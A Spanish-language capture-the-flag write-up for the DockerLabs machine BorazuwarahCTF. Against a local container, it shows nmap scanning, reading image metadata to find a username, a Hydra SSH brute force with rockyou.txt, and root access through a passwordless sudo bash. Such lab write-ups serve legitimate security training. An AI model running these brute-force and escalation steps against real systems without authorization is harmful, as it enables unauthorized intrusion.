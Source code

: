 # 🖥️ **Máquina: BorazuwarahCTF**  
- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Esta máquina de DockerLabs está diseñada para practicar técnicas básicas de explotación, incluyendo fuerza bruta con Hydra, análisis de metadatos y escalada de privilegios mediante SSH. Es ideal para principiantes que desean familiarizarse con herramientas comunes de pentesting.  

- **🎯 Objetivo:**  
  - Identificar credenciales mediante fuerza bruta.  
  - Analizar metadatos de archivos para encontrar información sensible.  
  - Escalar privilegios en el sistema.  

![Logo de BorazuwarahCTF](/BorazuwarahCTF/Imagenes/Logo.png)  

---

## 🚀 **Despliegue de la Máquina BorazuwarahCTF en DockerLabs**  

Para iniciar la máquina, sigue estos pasos:  

### 1️⃣ **Ejecutar el despliegue automático**  
Ejecuta el siguiente comando para desplegar la máquina:  

```bash
sudo bash auto_deploy.sh borazwarabctf.tar
```  

📌 **Nota:** Asegúrate de tener Docker configurado correctamente.  

![Máquina Iniciada](/BorazuwarahCTF/Imagenes/Activar.jpeg)  

Una vez iniciada, verifica la conexión con:  

```bash
ping -c4 172.17.0.2
```  
![ping](/BorazuwarahCTF/Imagenes/Ping.jpeg)  

---

## 🔍 **Reconocimiento**  

### Escaneo de Puertos  
Se identificaron los puertos abiertos con Nmap:  

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports.txt
```  

**Puertos abiertos:**  
- **22/tcp (SSH)**  
- **80/tcp (HTTP)**  

![Resultado del Escaneo](/BorazuwarahCTF/Imagenes/Escaneo.jpeg)  

### Servicios Detectados  
Se utilizó Nmap para obtener más detalles de los servicios que corren en los puertos:  

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target.txt
```  

**Resultados:**  
- **SSH:** OpenSSH 9.2p1  
- **HTTP:** Apache 2.4.59  

![Servicios Detectados](/BorazuwarahCTF/Imagenes/Servicios.jpeg)  

---

## 🛠️ **Pagina Web**  
Revise la pagina web que estaba corriendo en el puerto :80, pero no se encontro nada relevante use las herramientas de gobuster,wfuzz revise la pagina con whatweb y procedi a revisar la imagen.

![Pagina](/BorazuwarahCTF/Imagenes/Pagina.jpeg)  

---

## 🛠️ **Exploracion de la imagen**  

### Metadatos
Descargue la imagen con el comando:  

```bash
wget http://172.17.0.2/imagen.jpeg
```
Con la imagen descargada se prcedio ha revisar su metadata donde se encontro un usuario que procedi a usar Hydra para intentar encontrar su contraseña para el servicio de SSH ya que en la etapa de reconocimeto encontramos que el puerto 22 estava activo.

```bash
exiftool imagen.jpeg
```  

![Metadatos](/BorazuwarahCTF/Imagenes/Metadatos.jpeg)  

---
## 🛠️ **Explotación**  

### Fuerza Bruta con Hydra  
Se empleó Hydra para encontrar credenciales SSH:  

```bash
hydra -l borazunarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 20
```  

**Credenciales encontradas:**  
- **Usuario:** `borazunarah`  
- **Contraseña:** `123456`  

![Resultado de Hydra](/BorazuwarahCTF/Imagenes/Hydra.jpeg)  

### Conexión SSH  
Se accedió al sistema con las credenciales obtenidas:  

```bash
ssh borazunarah@172.17.0.2
```  

### Escalada de Privilegios  
Se verificaron los permisos de sudo:  

```bash
sudo -l
```  

**Resultado:**  
- El usuario puede ejecutar `/bin/bash` como root sin contraseña.  

```bash
sudo /bin/bash
```  

![Escalada de Privilegios](/BorazuwarahCTF/Imagenes/SSH.jpeg)  

---

## 📌 **Conclusión**  
Esta máquina permitió practicar técnicas básicas de pentesting, desde reconocimiento hasta explotación y escalada de privilegios. Se destacó la importancia de:  
- Verificar permisos de sudo.  
- Analizar metadatos en archivos públicos.  
- Utilizar herramientas como Hydra para ataques de fuerza bruta.  
